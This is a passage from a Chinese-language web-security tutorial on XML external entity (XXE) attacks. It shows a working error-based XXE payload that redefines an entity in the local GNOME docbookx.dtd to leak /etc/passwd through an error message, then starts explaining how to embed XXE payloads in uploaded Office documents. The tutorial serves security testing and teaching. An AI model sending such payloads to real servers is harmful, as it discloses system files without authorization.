 在上述代码的执行过程中发生了以下事情：

-   定义一个名为 local\_dtd 的 XML 参数实体，其中包含服务器文件系统上已存在的外部 dtd 文件的内容。
-   重新定义名为 custom\_entity 的 XML 参数实体，该实体已在外部 DTD 文件中定义。实体被重新定义为包含已描述的，用于触发包含/etc/passwd 文件内容的错误消息。
-   由于 local\_dtd 实体的使用，外部 dtd 被覆盖，包括 custom\_entity 实体的新值。这将产生所需的错误消息。  
    （实际上，使用有 GNOME 桌面环境的系统通常在/usr/share/yelp/DTD/docbookx.dtd 文件里面有一个名为 ISOamso 的实体。）

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

[![img](assets/1698894099-968ce2c46f3ca5225ab7ede1a2a31115.png)](https://storage.tttang.com/media/attachment/2022/11/14/5590258d-8eed-42d4-b9ae-c9a712deab6a.png)

由于此技术使用了内部的 DTD，您需要首先找到一个可以用的 DTD。可以试试安装一个一样的操作系统和相关软件来浮现上面这个过程。

### [Office Open XML 解析器实现 XXE](#toc_office-open-xml-xxe)

许多 web 应用程序允许您上载 Microsoft Office 文档，然后从中解析一些详细信息。例如，您可能有一个 web 应用程序，允许您通过上传 XLSX 格式的电子表格来导入数据。有时，为了让解析器从电子表格中提取数据，解析器需要解析至少一个 XML 文件。

对此进行测试的方法是生成一个包含 XXE payload 的 Microsoft Office 文件，实现的步骤很简单。首先，创建一个空目录来解压缩文档，然后解压缩！

```plain
test$ ls
test.docx
test$ mkdir unzipped
test$ unzip ./test.docx -d ./unzipped/
Archive:  ./test.docx
  inflating: ./unzipped/word/numbering.xml
  inflating: ./unzipped/word/settings.xml
  inflating: ./unzipped/word/fontTable.xml
  inflating: ./unzipped/word/styles.xml
  inflating: ./unzipped/word/document.xml
  inflating: ./unzipped/word/_rels/document.xml.rels
  inflating: ./unzipped/_rels/.rels
  inflating: ./unzipped/word/theme/theme1.xml
  inflating: ./unzipped/[Content_Types].xml
```
